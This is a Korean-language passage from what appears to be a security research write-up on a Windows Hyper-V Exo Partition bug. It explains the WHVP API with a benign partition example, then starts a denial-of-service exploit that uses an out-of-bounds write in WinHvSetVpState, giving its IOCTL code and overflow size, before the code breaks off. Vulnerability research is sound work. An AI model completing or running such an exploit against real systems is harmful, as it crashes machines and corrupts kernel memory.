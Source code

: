 ## Exo Partition

바로 익스플로잇 코드를 작성하러 가보기 전에 Exo Partition에 대해 알 필요가 있습니다.

디바이스 이름이나 함수명에서 계속 보이는 `Exo`라는 단어는 해당 디바이스와 함수들이 Exo Partition과 연관되어 있기 때문인데요? 이 Exo Partition이라는 건 한마디로 WHVP(Windows Hypervisor Platform) API를 사용하여 관리되는 파티션을 말합니다! WHVP API가 제공하는 `WHvCreatePartition`, `WHvCreateVirtualProcessor` 등의 함수를 사용하면 Hyper-V의 기능을 통해 파티션/가상 프로세서의 생성과 관리 등이 가능합니다.

아래는 WHVP API를 사용하여 Partition 생성/제거를 하는 간단한 예시입니다.

```c
#include <stdio.h>
#include <Windows.h>
#include "WinHvPlatform.h"

int
main()
{
	WHV_PARTITION_HANDLE prtn;
	WHV_CAPABILITY cap;
	unsigned int size, val;
	char* payload = NULL;

	WHvGetCapability(WHvCapabilityCodeHypervisorPresent, &cap, sizeof(cap), &size);

	if (cap.HypervisorPresent == 0)
	{
		printf("Hypervisor is not present\n");
		return -1;
	}

	WHvCreatePartition(&prtn);

	val = 1;//processor cnt
	WHvSetPartitionProperty(prtn, WHvPartitionPropertyCodeProcessorCount, &val, sizeof(val));

	WHvSetupPartition(prtn);

	WHvDeletePartition(prtn);
}
```

# Exploitation - Denial of Service

다시 본론으로 돌아와서 익스플로잇입니다! 아래의 익스플로잇 코드에서는 `WinHvSetVpState`에서 발생하는 OOB Write를 통해 커널 메모리에 위치한 데이터들을 오염시켜 크래시를 발생시키는 것으로 Denial of Service를 달성합니다.

```c
#include <stdio.h>
#include <Windows.h>
#include "WinHvPlatform.h"

#define OOB_WRITE_CTL_CODE 0x221268
#define OOB_SIZE 0x10000

int
main()
{
	WHV_PARTITION_HANDLE prtn;
	WHV_CAPABILITY cap;
	unsigned int size, val;
	char* payload = NULL;

	WHvGetCapability(WHvCapabilityCodeHypervisorPresent, &cap, sizeof(cap), &size);

```